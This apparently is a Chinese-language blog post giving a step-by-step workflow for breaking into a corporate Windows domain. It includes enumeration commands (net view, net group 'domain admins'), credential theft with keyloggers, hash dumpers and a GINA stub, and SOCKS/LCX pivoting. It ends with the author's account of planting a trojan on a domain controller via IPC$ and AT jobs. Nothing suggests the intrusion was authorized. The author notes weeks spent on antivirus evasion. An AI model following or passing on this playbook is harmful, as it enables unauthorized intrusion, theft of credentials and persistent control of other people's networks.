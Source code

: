 ## Hack Workflow

渗透: 信息收集，然后分类归档，技术利用，从而达到目标。

1. 收集信息。

- 这台机器的所属人员，公司职位身份，有多大的权利， 这都关系到他在内网里的权限。

- 翻他的电脑这是必要的，一台个人用的电脑，从上面翻出与他自己相关的一些信息，和大量公司信息应该是没有问题的，除非，这是台新电脑。

- 期间你要记下你所掌握到的账号，密码这些重要数据，以后有一定的用，所以，在你渗透之前.记笔记.

2. 了解网络:
一般的内网，还是域?  必须了解他的网络拓扑，

我们只能了解我们所能知道的。不管他是INT，DMZ，LAN，我们必须足够掌握。在这，我们就会用到一定的命令，相信大家应该都很熟悉。
- ipconfig /all            IP段 网关 属于不属于域
- net view                 查询一些存在联系的机器，一般以机器名显示，我们需要对其PING出IP，一是方便查询哪些重要机器的IP，二是方便查询存在几个段
- net view /domain   查询有几个域 因为大型网络里面一般不止一个域的
- net group /domain 查询域里面的组
- net user /domain   查询域用户
- net group “domain admins” /domain 查询域管理用户组


3. 信息归档
2-1、有了信息，我们就要对信息进行一定的归档，将每个机器名所对应的IP归档，方便用时不会乱。
2-2、查询出的用户，管理员，我们也必须归档。
2-3、查询信息时可能出现的有利用价值信息必须归档。

3、技术利用
3-1、不论是通过键盘记录。或者HASH的抓取，我们需要将账号，密码，邮箱，凡是涉及关键数据的全部保存，一方面是准备渗透的资料，二是防止当前利用机器会掉。
3-1-1、利用远控的键盘记录进行抓取。
3-1-2、利用PWDUMP7或者GETHASHES进行抓取HASH，然后破解。GETHASHES V1。4后 可以抓取域的全部HASH。
3-1-3、用GINASTUB。DLL获取管理员的账号和密码。因为域管理员有权限登陆任何一台机器。种上这个只是方便记录他所登陆的密码。INSTALL后，会在SYSYTEM32下生成一个 FAXMODE。INC 文件记录密码。

3-2、有了内网，很多东西我们是没有必要直接在当前利用机器上操作的，别人虽然是内网，但是不代表他没有防御系统，所以，我们建立SOCKS或者VPN是很有必要的，建立SOCKS相信大家都会了吧。

3-2-1、我在这推荐 VIDC 这个工具，很方便，在CMD下直接操 VIDC。EXE -D -P PORT 就可以了。
3-2-2、在利用机器上使用LCX，CMD下 LCX。EXE -SLAVE 服务器IP PORT 127。0。0。1 PORT，然后到服务器上CMD下 LCX。EXE -LISTEN 服务器IP PORT 任意PORT。
3-2-3、建立SOCKS后在本地可以用SOCKSCAP来进行连接，成功连接后该操作什么就看你们自己了。
基本上我们就只能操作这么多了，后面已经没有什么技术上的再使用或利用，但是这中间的经验不少，所需要处理的细节也不少。
我们在得到内网机器后，如果他存在域，但是没有使用域账号怎么办?那我们只能查询或者想尽一切手段获得他常用的账号密码，然后利用这个账号密码，再通过SOCKS进入域。这其中就关系到各位 同行查看控制机器的文件，还有记录密码，GINA，HASH破解，这些都是必须的。

进入域后，我们又该怎么做，建立SOCKS后又该怎么做。我们可以扔S上去查看主要的端口，我们可以对端口进行弱口令的尝试，我们可以针对内网的WEB进行检测，方式很多，甚至你可以用MS08-067 对另一台机器进行突破，但是相信我，能使用域的机器，大部分都是补丁打齐的。我们能利用的很少，但是不能灰心，只要能在内网穿梭，我们至少在防御上会轻松很多，我们需要的只是耐心和时间。

一旦拥有密码，我们就可以尝试IPC连接，直接拿下域，这就得看你们的权限有多大。
net use \IPipc$ password /user:username@domain
推荐使用这样的方式输入账号和密码，为什么?如果用户名存在空格，你这样输会保险些。什么 域用户不能存在空格?
是的，以前我也认为不会，微软的讲师也说不会，不过，经过我的测试和经验，那是假的，域 完全可以空格，除了user name 这样的，还可以存在 user na me ，不信你可以试试。建立IPC后，你只是想COPY文件或者 RAR文件再或者种马 那就是你的自由了。
后话:最近因为在渗域，在渗透过程中，也确实出现一些问题，几次都是不知如何进行，其实在技术上，并没有什么障碍。主要是在于对方有着比较强的主防御，而我的远控最开始连CMD都无法执行， 后经过几天的环境测试，突破了CMD。有了CMD后，进行了查询，获得了一些信息，就开始了往下的渗透，被控机器的密码我不是跑出来的，我是翻他的文件翻出他常用密码的。因为他没有使用域账号， 都是以系统账号登陆，所以无法查看域。我只能用他的域账号建立IPC连接，查找到内网的一个WEB服务，将其渗透后才算拿下了一个稳定的内网机器。
拿下内网WEB服务器后，我就已经完全在域内，没有使用HASH INJECTION，我是先查询了DOMAIN ADMINS，发现WEB服务器上的账号就属于这个组，PW后得到了HASH，破解掉我就连向了域控服务器的 IPC$。
连接了IPC$，直接在其SYSYTEM32下扔了一个远控，然后用AT命令将其启动，这期间我尝试了5个SHIFT，但是SHIFT关闭后，我的远控也会掉，所以排除了这种方法，还是用AT来ADD NEW JOB 比较方便 。
给域控服务器种了远控，利用CMD来GETHASHES了全部的HASHES进行破解，很幸运的查到了文件管理组的用户，这才有了我后面的目标达成。
总的来说，我这次的渗透比较运气好，中间麻烦事不是太多，不过也花了半个月的时间，时间大部分花在测试防御环境，软件免杀，木马免杀，查找资料这些上面。
后来，我获取了他的网络拓补图，发现我所呆的区域只是一个小小的域，还有好几个域我还没有涉及到，在域的前面是DMZ，而DMZ前面当然是INT了。
已经很晚了，本来是在写一份详细的渗透过程，不过因为一直工作，很多细节没有办法当场记录，所以，暂时在BLOG上写一些能想到的，后面如果有时间有环境，会再补充更多的细节以及图片和在渗 透时所遇到的麻烦，如何解决等写出来。